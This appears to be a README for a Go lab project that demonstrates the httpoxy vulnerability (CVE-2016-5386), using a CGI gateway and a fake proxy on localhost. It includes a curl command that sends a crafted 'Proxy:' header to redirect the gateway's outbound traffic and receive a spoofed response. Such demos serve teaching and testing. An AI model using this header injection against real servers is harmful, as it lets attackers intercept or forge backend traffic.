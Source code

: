 go-httpoxy
==========

Golang Example for [httpoxy](https://httpoxy.org/) (CVE-2016-5386)

CGI model refer: [Go中的CGI包使用](http://www.cnblogs.com/yjf512/archive/2012/12/25/2831891.html)

## Gateway

On `7070`
```
go run main.go
```

## Fake Proxy

On `7071`
```
cd fake-proxy && go run main.go
```

## Example

Normal

```
curl 'http://127.0.0.1:7070'
```

Using the vulnerability, and get fake response:

```
curl -H 'Proxy:127.0.0.1:7071' 'http://127.0.0.1:7070'
```
